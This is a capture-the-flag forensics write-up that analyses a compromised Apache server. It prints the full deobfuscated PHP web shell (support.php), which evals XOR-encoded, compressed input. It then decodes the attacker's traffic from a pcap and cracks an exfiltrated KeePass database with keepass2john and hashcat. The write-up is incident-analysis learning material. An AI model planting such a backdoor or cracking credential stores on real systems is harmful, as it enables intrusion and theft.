







> An attacker has found a vulnerability in our web server that allows arbitrary PHP file upload in our Apache server. Suchlike, the hacker has uploaded a what seems to be like an obfuscated shell (support.php). We monitor our network 24/7 and generate logs from tcpdump (we provided the log file for the period of two minutes before we terminated the HTTP service for investigation), however, we need your help in analyzing and identifying commands the attacker wrote to understand what was compromised.
- We have 3 files, one is just the definition of the problem, then we have the malicious .php and a pcap file
- Opening the .php file seems like it is obfuscated, so lets dump it into `unphp.net` and see what it shows:
```php
$k="80e32263";$kh="6f8af44abea0";$kf="351039f4a7b5";$p="0UlYyJHG87EJqEz6";function x($t,$k){$c=strlen($k);$l=strlen($t);$o="";for($i=0;$i<$l;){for($j=0;($j<$c&&$i<$l);$j++,$i++){$o.=$t{$i}^$k{$j};}}return $o;}if(@preg_match("/$kh(.+)$kf/",@file_get_contents("php://input"),$m)==1){@ob_start();eval(@gzuncompress(@x(base64_decode($m[1]),$k)));$o=@ob_get_contents();@ob_end_clean();$r=@base64_encode(@x(@gzcompress($o),$k));print("$p$kh$r$kf");}
```
- We can see a print function below and it prints:
    - `0UlYyJHG87EJqEz66f8af44abea0QKxO/n6DAwXuGEoc5X9/H3HkMXv1Ih75Fx1NdSPRNDPUmHTy351039f4a7b5`
- If we can isolate variables we can see that `$r=QKxO/n6DAwXuGEoc5X9/H3HkMXv1Ih75Fx1NdSPRNDPUmHTy`, and the way it is handled is `$r=@base64_encode(@x(@gzcompress($o),$k))`
    - Which, in it's order is 
        1. gzcompress
        2. XOR with $k
        3. base64 encode
    - So what we are going to do is in reverse
        1. base64 decode
        2. XOR with $k (xor is reversible)
        3. gzdecompress -> zlib inflate
- And we get this!
- 
- This seems like an attacker has gotten an initial foothold
- On the bottom of the wireshark packets, we also see some more similar structure stuff:
    - `[…] 0UlYyJHG87EJqEz66f8af44abea0.QKzo43k49AMoNoVOfAMh+6h3euEZJvkTlblqP34rlZqPhxDgKLYMz7NpqfQ9IR9FOXy0OfVbUgo/PF3MxrMw/JOdJebwjE2y6VAxUFnyA4H4dHQNgV49YatbqT0it9IXYf5kzoE4+kfGnZ/dTAsyCesTC0i5V+gJQw6bYm/nU3U/lrYGyl+dgvIOURfl0fvGm0hmr0RZKQ==.351039f4a7b5`
        - 
        - We can see that attacker used the `ls -la` command

    - `0UlYyJHG87EJqEz66f8af44abea0.QKy2/Pr9e+Z3eUh4//sZexUyZR8mN/g=.351039f4a7b5`
        - 
        - We can see the attacker used the `pwd` command

    - `[…] 0UlYyJHG87EJqEz66f8af44abea0.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.351039f4a7b5`
        - 
- What is this 3rd block???
    - From further investigation, we can see in the first block that there is an interesting file called `pwdb.kbdx`, which might be what the third content is
        - 
- Ok, so we have the encoded version, I downloaded `keepassxc` and tried to open it but it prompted me with a password -> Dict atk?
- But we need to somehow turn it into a hash just like when we are cracking a pdf password, so we do 
    - `cat pass.kdbx | base64 -d > processed.kdbx` this is to first
    - `keepass2john processed.kdbx > kdbx.hash`
    - `hashcat -m 13400 kdbx.hash rockyou.txt`

- 
- Let's use keepassxc to open it now!
    - 
> Conclusion: This is not "easy" at all! I've spent 2 hours and even checked out a writeup
